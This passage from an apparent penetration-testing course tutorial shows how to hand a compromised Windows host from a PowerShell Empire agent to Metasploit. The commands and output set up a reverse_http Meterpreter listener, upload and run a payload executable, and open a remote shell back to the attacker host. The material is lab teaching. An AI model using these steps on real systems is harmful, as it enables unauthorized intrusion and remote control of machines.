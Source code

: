 We then set up a Metasploit listener using the multi/handler module and the previously-chosen settings:

```ruby
msf5 > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf5 exploit(multi/handler) > set LPORT 7777
LPORT => 7777
msf5 exploit(multi/handler) > set LHOST 10.11.0.4
LHOST => 10.11.0.4
msf5 exploit(multi/handler) > exploit
[*] Started HTTP reverse handler on http://10.11.0.4:7777
```

Now we switch back to our PowerShell Empire shell and upload the executable:

```bash
(Empire: S2Y5XW1L) > upload /home/kali/met.exe
[*] Tasked agent to upload met.exe, 72 KB
[*] Tasked S2Y5XW1L to run TASK_UPLOAD
[*] Agent S2Y5XW1L tasked with task ID 12
[*] Agent S2Y5XW1L returned results.
[*] Valid results returned by 10.11.0.22

(Empire: S2Y5XW1L) > shell dir
[*] Tasked S2Y5XW1L to run TASK_SHELL
[*] Agent S2Y5XW1L tasked with task ID 3
[*] Agent S2Y5XW1L returned results.
Directory: C:\Users\offsec.corp\Downloads>
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 10/2/2019 11:24 AM 73802 met.exe
..Command execution completed.
[*] Valid results returned by 10.11.0.22

(Empire: S2Y5XW1L) > shell C:\Users\offsec.corp\Downloads>met.exe
[*] Tasked S2Y5XW1L to run TASK_SHELL
[*] Agent S2Y5XW1L tasked with task ID 5
[*] Agent S2Y5XW1L returned results.
..Command execution completed.
[*] Valid results returned by 10.11.0.22
```

With the executable running, we’ll switch back to our meterpreter listener and watch the incoming shell:

```ruby
[*] Started HTTP reverse handler on http://10.11.0.4:7777
[*] http://10.11.0.4:7777 handling request from 10.11.0.22; Staging x86 payload (18082
[*] Meterpreter session 1 opened (10.11.0.4:7777 -> 10.11.0.22:50597)
meterpreter>
```

### Metasploit —> Empire
